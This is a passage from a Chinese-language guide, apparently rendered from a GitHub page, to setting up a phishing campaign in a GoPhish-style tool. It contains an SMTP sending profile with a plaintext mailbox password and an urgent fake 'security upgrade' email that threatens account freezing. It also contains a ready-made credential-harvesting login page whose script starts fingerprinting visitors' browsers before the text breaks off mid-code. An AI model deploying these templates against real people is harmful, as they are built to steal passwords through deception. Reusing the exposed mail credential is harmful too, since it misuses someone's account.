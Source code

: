 ```
Name: QQ邮箱测试
From: 809050685@qq.com
Host: smtp.qq.com:465
Username: 809050685@qq.com  
Password: xutqpejdkpfcbbhi
```

**重要设置：**
- ✅ 勾选 "Ignore Certificate Errors"
- ✅ 使用端口 465 (SSL)

### 3. 创建邮件模板
进入 "Email Templates" → "New Template"：

```
Subject: 【紧急】系统安全升级通知

尊敬的用户，

我们的系统将进行重要安全升级，请立即点击以下链接完成必要的验证：
{{.URL}}

如不及时处理，您的账户可能被暂时冻结。

IT部门
```

### 4. 创建钓鱼页面
进入 "Landing Pages" → "New Page"：

```html
<!DOCTYPE html>
<html>
<head>
    <title>企业安全验证系统</title>
    <style>
        body { font-family: Arial; margin: 40px; background: #f5f5f5; }
        .login-box { max-width: 400px; margin: 0 auto; background: white; padding: 30px; border-radius: 10px; box-shadow: 0 2px 10px rgba(0,0,0,0.1); }
        h2 { color: #2c3e50; text-align: center; }
        input { width: 100%; padding: 12px; margin: 10px 0; border: 1px solid #ddd; border-radius: 5px; box-sizing: border-box; }
        button { width: 100%; padding: 12px; background: #3498db; color: white; border: none; border-radius: 5px; cursor: pointer; font-size: 16px; }
        .warning { color: #e74c3c; font-size: 14px; text-align: center; margin-bottom: 20px; }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>🔐 系统安全验证</h2>
        <div class="warning">检测到异常登录，请验证身份</div>
        <form method="POST">
            <input type="email" name="email" placeholder="邮箱地址" required>
            <input type="password" name="password" placeholder="密码" required>
            <button type="submit">立即验证</button>
        </form>
        <script>
            // 收集浏览器信息
            document.addEventListener('DOMContentLoaded', function() {
                var info = {
                    browser: navigator.userAgent,
                    screen: screen.width + 'x' + screen.height,
                    timezone: Intl.DateTimeFormat().resolvedOptions().timeZone
                };
```